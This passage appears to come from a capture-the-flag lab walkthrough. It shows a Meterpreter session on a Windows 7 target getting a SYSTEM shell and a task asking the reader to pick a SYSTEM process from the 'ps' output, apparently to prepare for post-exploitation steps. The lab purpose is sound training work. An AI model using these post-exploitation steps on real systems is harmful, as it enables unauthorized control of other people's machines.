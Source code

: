 ```
meterpreter > shell
Process 1580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

`No answer needed`

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 724   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1000  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1056  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1104  816   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 1136  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1272  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
```